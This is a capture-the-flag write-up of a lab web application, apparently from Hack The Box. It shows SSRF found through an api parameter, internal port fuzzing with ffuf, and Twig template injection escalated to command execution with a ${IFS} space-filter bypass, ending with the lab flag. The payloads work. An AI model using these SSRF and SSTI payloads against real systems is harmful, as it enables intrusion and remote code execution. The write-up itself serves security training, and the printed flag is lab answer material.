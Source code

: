 ```yaml
---
sticker: lucide//server
---
```

## Scenario

You are tasked to perform a security assessment of a client's web application. Apply what you have learned in this module to obtain the flag.

![](images/Pasted%20image%2020250212154851.png)

Let's begin by checking the page:

![](images/Pasted%20image%2020250212154913.png)

We got a simple page, nothing is off at the beginning, we have three sections: `menu`, `reviews` and `contact`, let's read the main's page source code:

![](images/Pasted%20image%2020250212155010.png)

We can see this js code at the end of the file, let's break it down:

```ad-important
### **1. Loop Through Truck IDs**

- Iterates over a list of truck IDs: `["FusionExpress01", "FusionExpress02", "FusionExpress03"]`.
    
- For each truck ID, an HTTP request is made to fetch its location.
    

---

### **2. XMLHttpRequest Setup**

- **Synchronous Request**:  
    `xhr.open('POST', '/', false)` creates a **synchronous** POST request to the server (`/`).  
    _(Synchronous requests block the UI until completion, which is generally discouraged.)_
    
- **Request Headers**:  
    Sets `Content-Type: application/x-www-form-urlencoded` to send data as form-encoded key-value pairs.
    

---

### **3. Request Handling**

- **POST Data**:  
    Sends the parameter `api=http://truckapi.htb/?id=<TRUCK_ID>` in the request body.
    
    - `encodeURIComponent("=" + truckID)` ensures the `=` and truck ID are URL-safe (e.g., `%3DFusionExpress01`).
        
    - Final URL sent to the server: `http://truckapi.htb/?id=FusionExpress01`.
        
- **Server-Side Behavior**:  
    The server likely acts as a proxy, using the `api` parameter to fetch data from the internal `truckapi.htb` endpoint.  
    _(This could introduce SSRF vulnerabilities if the server doesn’t validate the URL.)_
    

---

### **4. Response Handling**

- **Success Case (HTTP 200)**:
    
    - Parses the response as JSON.
        
    - Displays `data['location']` if available, or `data['error']` if an error is present.
        
- **Failure Case**:  
    Shows "Unable to fetch current truck location!" if the request fails (non-200 status).
    

---

### **5. UI Updates**

- Updates the HTML element with `id=truckID` (e.g., `<div id="FusionExpress01">`) to show the location/error.
    

---

### **Key Observations**

- **SSRF Risk**: The server trusts the `api` parameter to make internal requests. If unvalidated, attackers could exploit this to access internal systems.
    
- **Hardcoded Truck IDs**: Limits functionality to predefined trucks (no user input).
    
- **Synchronous Requests**: Poor practice for user experience but intentional here for sequential processing.

### **Summary**

For each Truck ID:
  1. Send POST to server with URL: `http://truckapi.htb/?id=<TRUCK_ID>`
  2. Server fetches data from `truckapi.htb`
  3. Client displays location/error in the webpage
```

Understanding the functionality of the page, we can start burp and check the request:

![](images/Pasted%20image%2020250212160205.png)

We can begin the testing for SSRF.

## SSRF Test
---

We can begin the test by pointing `http://127.0.0.1:80` to view the response:

![](images/Pasted%20image%2020250212160429.png)

It went through, what if we point to a closed port:

![](images/Pasted%20image%2020250212160546.png)

An error message is shown, knowing this, we can use ffuf and fuzz for open ports:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200
```

We can see the following:

```
ffuf -w ports.txt:FUZZ -u http://83.136.252.66:53014/ -X POST -H "Host: 83.136.252.66:53014" -H "Content-Type: application/x-www-form-urlencoded" -d "api=http://127.0.0.1:FUZZ" -fr "Error \(7\)" -ic -c -t 200

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://83.136.252.66:53014/
 :: Wordlist         : FUZZ: /home/samsepiol/ports.txt
 :: Header           : Host: 83.136.252.66:53014
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : api=http://127.0.0.1:FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Error \(7\)
________________________________________________

3306                    [Status: 200, Size: 45, Words: 7, Lines: 1, Duration: 158ms]
80                      [Status: 200, Size: 4194, Words: 278, Lines: 126, Duration: 5317ms]
```

So, port 3306 is open, let's check the response:

![](images/Pasted%20image%2020250212161958.png)

We got another error message, `Received HTTP/0.9 when not allowed`, but it doesn't matter, since we know we have SSRF, we can attempt to read local files:


```
file:///etc/passwd
```

We get the following:

![](images/Pasted%20image%2020250212165927.png)

`file` has been disabled, let's test other way.

## SSTI Test
---

We can test SSTI with this simple payload:


```twig
http://truckapi.htb/?id={{7*7}}
```

We see the following:


![](images/Pasted%20image%2020250212170132.png)

It works, this means we are facing `twig`, let's try to use this:

```twig
{{ ['id'] | filter('system') }}
```

We need to format it:

```twig
http://truckapi.htb/?id={{['id']|filter('system')}}
```

We see the following:

![](images/Pasted%20image%2020250212170307.png)

We got RCE, let's proceed to read our flag, since we need to do a space in order to do `cat /flag.txt`, we can use `${IFS}` which is the `Internal Field Separator` to bypass the space restrictions in shell commands, payload would be the following:

```twig
http://truckapi.htb/?id={{['cat${IFS}/flag.txt']|filter('system')}}
```

We can see the following:

![](images/Pasted%20image%2020250212170624.png)

We got our flag:

```
HTB{3b8e2b940775e0267ce39d7c80488fc8}
```

![](images/Pasted%20image%2020250212170814.png)

